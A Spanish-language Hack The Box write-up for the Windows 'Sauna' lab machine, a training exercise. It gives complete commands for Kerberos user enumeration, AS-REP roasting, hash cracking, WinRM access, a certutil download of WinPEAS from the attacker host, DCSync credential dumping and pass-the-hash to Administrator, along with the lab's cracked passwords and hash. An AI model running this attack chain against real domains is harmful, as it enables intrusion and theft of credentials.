# Sauna - Writeup HTB

**Dificultad:** Easy | **OS:** Windows | **XP:** 450



---

## Reconocimiento

### Escaneo de puertos

Se comienza con un escaneo completo de puertos para identificar todos los servicios expuestos en la máquina:

```c
❯ nmap -p- --open --min-rate 1000 -Pn -n 10.129.15.173  -v -oG allportsScan
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49668/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49696/tcp open  unknown
49717/tcp open  unknown
```

La presencia de los puertos 88 (Kerberos), 389 (LDAP), 445 (SMB) y 5985 (WinRM) confirma que estamos ante un **Domain Controller**. El puerto 80 indica además un servidor web que vale la pena explorar. Se lanza un escaneo de versiones y scripts sobre los puertos descubiertos:

```c
❯ nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49676,49696,49717 -sC -sV -vv -n 10.129.15.173 -v -Pn -oN servicesScan

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-06-16 04:13:14Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49717/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-06-16T04:14:08
|_  start_date: N/A
|_clock-skew: 7h00m00s
```

El escaneo confirma el dominio **EGOTISTICAL-BANK.LOCAL** y el hostname **SAUNA**. El puerto 5985 (WinRM) abierto es relevante porque si obtenemos credenciales válidas podremos obtener una shell remota directamente.

---

## Enumeración Web

Al visitar el sitio web en el puerto 80, se encuentra la página corporativa de Egotistical Bank. En la sección `/about.html` se listan los nombres de los empleados del equipo, lo cual es información valiosa para construir una lista de posibles usernames de dominio:



Los nombres encontrados son: Fergus Smith, Shaun Coins, Hugo Bear, Bowie Taylor, Sophie Driver y Steven Kerb. En Active Directory, los usernames suelen seguir convenciones como `fsmith`, `fergus.smith`, `f.smith`, etc. Se usa `username-anarchy` para generar todas las variantes posibles:

```c
❯ ./username-anarchy --input-file /home/b0ysie7e/seven/student/Hackthebox/machines/sea/content/users-names.txt > /home/b0ysie7e/seven/student/Hackthebox/machines/sea/content/users-name-gen.txt
```

## Enumeración de Usuarios — Kerbrute

Con la lista generada, se usa `kerbrute` para validar qué usernames existen realmente en el dominio. Kerbrute hace esto sin necesidad de credenciales, aprovechando el comportamiento de Kerberos que responde de forma diferente a usuarios válidos e inválidos:

```c
❯ ./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.129.15.173 /home/b0ysie7e/seven/student/Hackthebox/machines/sea/content/users-name-gen.txt
```



Se encontró el usuario `fsmith`. Para ampliar la búsqueda, se lanza también con una wordlist más grande:

```c
❯ ./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.129.15.173 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```



Se confirman los usuarios válidos: `administrator`, `hsmith` y `fsmith`.

## AS-REP Roasting

Con la lista de usuarios válidos, se comprueba si alguno tiene deshabilitada la **preautenticación Kerberos** (flag `UF_DONT_REQUIRE_PREAUTH`). Cuando este flag está activo, el KDC devuelve un ticket AS-REP cifrado con la contraseña del usuario sin necesidad de que el atacante se autentique primero. Este ticket puede crackearse offline.

```c
❯ impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.129.15.173 -no-pass -usersfile users-valid.txt
```



El usuario `fsmith` es vulnerable y se obtiene su hash AS-REP en formato `$krb5asrep$23$`.

---

## Crackeo del Hash — John

El hash obtenido se crackea offline con `john` y el diccionario `rockyou.txt`:

```c
❯ john --wordlist=/usr/share/wordlists/rockyou.txt krb5-fsmith
```



Credenciales obtenidas: `fsmith : Thestrokes23`

## Acceso Inicial — fsmith

Se verifica que las credenciales permiten acceso por WinRM y se obtiene una shell interactiva:

```c
❯ netexec winrm 10.129.15.173 -u fsmith -p Thestrokes23

❯ evil-winrm -i 10.129.15.173 -u fsmith -p Thestrokes23
```



Acceso confirmado como `egotisticalbank\fsmith`. Se tiene la flag de usuario en `C:\Users\FSmith\Desktop\user.txt`.

## Escalada de Privilegios

### Enumeración con WinPEAS

Para enumerar posibles vías de escalada, se sube y ejecuta WinPEAS, una herramienta automatizada que busca misconfigurations, credenciales almacenadas, servicios vulnerables y mucho más:

- https://github.com/peass-ng/PEASS-ng/releases/tag/20260604-085abf96

```c
*Evil-WinRM* PS C:\Users\FSmith\Documents> certutil -urlcache -f 'http://10.10.15.150/winPEASany.exe' winPEASany.exe

*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEASany.exe
```



WinPEAS encuentra **credenciales de AutoLogon** almacenadas en el registro de Windows. Estas credenciales se guardan en texto claro en `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` y son utilizadas por el sistema para iniciar sesión automáticamente al arrancar:

```c
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

### Verificación de acceso con svc_loanmgr

Se comprueba si este usuario también tiene acceso por WinRM:

```c
❯ netexec winrm 10.129.15.173 -u SVC_LOANMGR -p 'Moneymakestheworldgoround!'
```



Acceso confirmado. Ahora se opera con `svc_loanmgr`, que puede tener más privilegios en el dominio que `fsmith`.

---

## Análisis de ACLs — Descubrimiento de DCSync

### BloodHound

BloodHound permite visualizar las relaciones y permisos en el dominio de forma gráfica. Al analizar el usuario `SVC_LOANMGR`, se observa que tiene dos edges sobre el objeto del dominio:



Los edges `GetChanges` y `GetChangesAll` sobre `EGOTISTICAL-BANK.LOCAL` indican que este usuario puede realizar un ataque **DCSync**, que consiste en simular el comportamiento de un Domain Controller para solicitar la replicación de credenciales (hashes NTLM) de todos los usuarios del dominio.

### Enumeración manual con PowerView

Para confirmar esto manualmente sin depender de BloodHound, se usa PowerView. Primero se obtiene el SID del usuario y se buscan todos los ACEs donde aparezca como principal:

```c
*Evil-WinRM* PS C:\Users\FSmith\Documents> $sid = Convert-NameToSid SVC_LOANMGR
*Evil-WinRM* PS C:\Users\FSmith\Documents> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```



El resultado muestra que `SVC_LOANMGR` tiene un `ExtendedRight` sobre `DC=EGOTISTICAL-BANK,DC=LOCAL` con el GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`. Para saber qué permiso representa ese GUID en texto plano, se consulta el schema de Extended Rights del dominio:

```c
*Evil-WinRM* PS C:\Users\FSmith\Documents> $guid = "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2"

*Evil-WinRM* PS C:\Users\FSmith\Documents> ActiveDirectory\Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

> Nota: Se usa el prefijo `ActiveDirectory\` para forzar el cmdlet del módulo real, ya que PowerView sobrescribe `Get-ADObject` en la sesión y rompe el filtro LDAP.



El GUID corresponde a **DS-Replication-Get-Changes** (Replicating Directory Changes), uno de los dos permisos necesarios para DCSync. Se confirma el resultado completo con `ResolveGUIDs` para verlo directamente en texto plano:

```c
*Evil-WinRM* PS C:\Users\FSmith\Documents> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```



Confirmado: `SVC_LOANMGR` tiene permisos de replicación sobre el dominio completo. Esto es suficiente para ejecutar DCSync.

- https://b0ysie7e.xyz/notas/activedirectory/4.BloodHound/4.BloodHound%20-%20Data.html#dcsync

---

## DCSync — Dump de Hashes

Con `impacket-secretsdump` se simula el proceso de replicación de un DC, obteniendo los hashes NTLM de todos los usuarios del dominio:

```c
❯ impacket-secretsdump EGOTISTICAL-BANK.LOCAL/SVC_LOANMGR:'Moneymakestheworldgoround!'@10.129.15.173
```



Se obtiene el hash NTLM del Administrador: `823452073d75b9d1cf70ebdf86c7f98e`

---

## Acceso como Administrador — Pass the Hash

No es necesario crackear el hash. Se puede usar directamente mediante **Pass-the-Hash** para autenticarse como Administrador:

```c
❯ netexec winrm 10.129.15.173 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

```c
❯ evil-winrm -i 10.129.15.173 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```



Acceso total como `egotisticalbank\administrator`. La flag root se encuentra en `C:\Users\Administrator\Desktop\root.txt`.

